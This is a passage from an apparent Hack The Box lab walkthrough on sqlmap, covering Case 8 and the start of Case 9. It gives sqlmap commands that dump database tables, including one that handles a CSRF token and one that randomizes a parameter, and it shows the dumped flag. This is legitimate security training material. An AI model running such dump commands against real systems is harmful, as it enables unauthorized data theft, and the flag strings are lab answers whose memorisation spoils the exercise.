 ![Pasted image 20250204174531.png](../../../../IMAGES/Pasted%20image%2020250204174531.png)

Let's use the following:

```
python3 sqlmap.py -r Case8.txt --csrf-token=t0ken -T flag8 --dump --risk=3 --level=5 --batch
```

We get this:

```
Database: testdb
Table: flag8
[1 entry]
+----+-----------------------------------+
| id | content                           |
+----+-----------------------------------+
| 1  | HTB{y0u_h4v3_b33n_c5rf_70k3n1z3d} |
+----+-----------------------------------+
```

Flag is `HTB{y0u_h4v3_b33n_c5rf_70k3n1z3d}`

## Case 9
---
![Pasted image 20250204175407.png](../../../../IMAGES/Pasted%20image%2020250204175407.png)

Let's use the following sqlmap command:

```
python3 sqlmap.py -r Case9.txt -T flag9 --dump --risk=3 --level=5 --batch --randomize=uid
```
